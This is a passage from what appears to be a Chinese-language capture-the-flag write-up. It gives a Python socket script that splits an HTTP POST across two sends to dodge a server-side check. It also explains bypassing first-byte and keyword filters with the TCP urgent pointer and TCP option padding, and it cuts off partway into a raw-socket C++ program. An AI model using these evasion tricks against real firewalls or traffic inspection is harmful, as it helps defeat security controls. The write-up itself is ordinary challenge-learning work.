 将 `POST` 拆开发送

```py
import socket

HOST = '202.38.93.111'
PORT = 18080


message = f'''
POST / HTTP/1.1\r
Host: {HOST}:{PORT}\r
Content-Length: %d\r
\r
%s
'''.strip()


def do_post(data: str):
    sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sk.connect((HOST, PORT))

    raw = (message % (len(data), data)).encode()

    sk.sendall(raw[0:2])
    sk.sendall(raw[2:])

    resp = sk.recv(4096)
    print(resp.decode())
    sk.close()


do_post('YOUR_TOKEN')
```

### 我的 P、我的 GET

后两问需要用 Raw Socket 自己实现 TCP 协议

对于第二问，没有采用和官方一致的解法，而是通过紧急指针将第一个字节设置为紧急数据，绕过针对首字母 `P` 的检测；第三问则是设置 TCP 选项，将 `GET / HTTP` 塞进选项后面用于填充对齐的部分，从而通过检查

```c++
#include <cstdio>
#include <cstdlib>
#include <cstring>

#include <random>

#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/unistd.h>

#define RESTART "/proc/self/exe"


class error {
private:
    const char* message;

public:
    explicit error(const char *message) : message(message) { }

    template<typename T>
```